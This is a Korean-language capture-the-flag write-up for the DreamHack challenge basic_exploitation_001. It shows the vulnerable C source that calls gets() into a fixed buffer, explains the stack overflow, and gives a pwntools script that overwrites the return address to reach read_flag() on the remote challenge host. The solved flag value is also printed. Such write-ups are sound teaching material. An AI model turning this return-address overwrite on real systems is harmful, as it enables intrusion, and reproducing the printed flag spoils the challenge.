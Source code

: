 # [DreamHack] basic_exploitation_001

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_001)의 바이너리와 소스 코드가 주어집니다.
> 프로그램의 취약점을 찾고 익스플로잇해 “flag” 파일을 읽으세요.
> “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [basic_exploitation_001.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8546901/basic_exploitation_001.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/159498618-d810fa97-e08b-44cd-b36c-81d9e600ebb3.png)

## Analysis

```c
void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```

`gets(buf)`에서 BOF가 발생한다. `main()`의 return address를 `read_flag()`의 주소로 덮으면 플래그를 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/basic_exploitation_001')
else:
    r = remote('host3.dreamhack.games', 12615)

read_flag = 0x80485b9 # read_flag()

r.sendline(b'a' * 0x84 + p32(read_flag))

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host3.dreamhack.games on port 12615: Done
[*] Switching to interactive mode
DH{01ec06f5e1466e44f86a79444a7cd116}
```

